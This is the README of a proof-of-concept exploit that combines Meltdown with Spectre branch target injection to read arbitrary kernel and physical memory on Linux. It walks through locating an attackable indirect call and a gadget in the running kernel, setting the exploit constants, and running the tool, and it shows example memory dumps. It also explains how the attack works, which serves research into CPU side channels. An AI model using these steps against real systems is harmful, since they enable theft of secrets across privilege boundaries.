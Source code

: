 # A Meltdown + Spectre PoC that allows reading un-cached memory

This PoC combines Meltdown together with a Branch Target Injection (BTI, Spectre variant 2) in order to read any virtual memory address on the system (cached or un-cached).

The BTI is done into the running kernel, causing it to speculatively access any memory address that we'd like. This speculative access places the targeted data into the L1 cache. At that point it's easy to read the memory out using Meltdown, as described in the Meltdown whitepaper. 

# Limitations

1. This is for Linux only. Porting the same concept to other OSs should be trivial.
2. There is no regard here for KASLR. However, other tools exist (as part of other Meltdown PoCs) that do this.
3. You need to get a copy of the running kernel image and symbols.

This was tested on the following CPUs:

1. Intel Core i7-6500U
2. Intel Core i7-5500U

# Porting

This PoC has to be ported to your running kernel.
We need to obtain the kernel image. On my Ubuntu running a mainline kernel, I did something like:

    $ dpkg -S /boot/vmlinuz-`uname -r`
    linux-image-4.12.14-041214-generic: /boot/vmlinuz-4.12.14-041214-generic

Then obtain the deb file from http://kernel.ubuntu.com/~kernel-ppa/mainline/. Extract it uisng dpkg-deb.
Alternatively, let's cheat and just get it as root from:

    $ sudo cp /boot/System.map-`uname -r` .
    $ sudo cp /boot/vmlinuz-`uname -r` .
    $ sudo chmod ugo+x vmlinuz-* System.map-*
    
Extract vmlinuz:

    $ wget -O extract-vmlinux https://raw.githubusercontent.com/torvalds/linux/master/scripts/extract-vmlinux && chmod +x extract-vmlinux
    $ ./extract-vmlinux vmlinuz-* > vmlinux
    
Now find the symbol of the function that contains the indirect call we're going to attack with BTI:

    $ grep security_file_fcntl System.map-*
    ffffffff8138fcb0 T security_file_fcntl
    
Using this address, find the target callq in the function.

    $ objdump -d vmlinux | grep 'ffffffff8138fcb0:' -A 30 | grep 'callq.*\*' -A 1 | head -n2
    ffffffff8138fcf0:       ff 53 18                callq  *0x18(%rbx)
    ffffffff8138fcf3:       85 c0                   test   %eax,%eax
    
Additionally, find a gadget close by that derefs %rdx

    $ objdump -d vmlinux | grep 'ffffffff8138fcb0:' -A 20000 | grep 'mov[^,]*(%rdx' | head -n1
    ffffffff81392126:       48 8b 02                mov    (%rdx),%rax

These are the addresses needed to port the exploit. In this case, set the value CALL_ADDR_NEXT_INST to 0xffffffff8138fcf3 (this is the addr of the instruction *after* the call), and GADGET_ADDR to 0xffffffff81392126. These constants are in doit.c

At last, we'll cheat (due to no KASLR bypass) to retrieve the ASLR base

    $ sudo cat /proc/kallsyms | grep _stext
    ffffffff92a00000 T _stext
    
# Usage
    ./build.sh  
    tasket 0x1 ./doit <aslr_base> <virt_addr> <len>
    
To read physical memory, first we'll dump the *page_offset_base* pointer from the kernel. This should equal 0xffff880000000000 on kernels without KASLR. Otherwise, it'll be randomized. This is the address of the direct mapping of all physical memory into virtual memory.

    $ grep D.page_offset_base ../System.map-*
    ffffffff81e482e8 D page_offset_base 
    
To dump it, we'll add the offset from the kernel image ASLR base we already have:
  
    $ taskset 0x1 ./doit 0xffffffff92a00000 $((0xffffffff81e482e8 + (0xffffffff92a00000 - 0xffffffff81000000))) 0x8
    00 00 00 c0 5e 95 ff ff

There is a utility included here that loads a value into physical memory. It then makes sure the value is flushed from the caches. The utility is kept sleeping in the background so that the memory isn't freed by the kernel (and perhaps overwritten). 

    $ sudo ./phys &
    Virt 0x7ffebda43860, Phys: 0x37e0ed850

Now having recovered the *page_offset_base*, we can read data from a physical address:

    $ taskset 0x1 ./doit 0xffffffff92a00000 $((0xffff955ec0000000 + 0x37e0ed850)) 0x20
    de ad be ef ba be ca fe de ad be ef ba be ca fe
    de ad be ef ba be ca fe de ad be ef ba be ca fe

# How this works
Fist of all, this PoC implements the basic version of Meltdown, from the Meltdown whitepaper. However this attack is limited to only reading data from the L1D cache (as explained by Google Project Zero). To overcome this limitation, this PoC uses an additional Spectre BTI attack against the kernel.

The attacked indirect call in the kernel is located in security/security.c:

    int security_file_fcntl(struct file *file, unsigned int cmd, unsigned long arg)
    {
    	return security_ops->file_fcntl(file, cmd, arg);
    }
    
Here, if security_ops points to un-cached memory, the indirect call will be guessed by the CPU (as explained in the Spectre writeups). It's easy to reach this code via the fcntl() syscall.

The attacker controls the *arg* param in this call via the syscall API. The *arg* param will be passed on the %rdx register (per the x86_64 ABI). If *arg* is set to be a pointer, and the BTI causes the indirect call to speculatively execute a gadget that derefs %rdx, the memory *arg* points to will then become cached.

After that the regular Meltdown attack can read the memory.
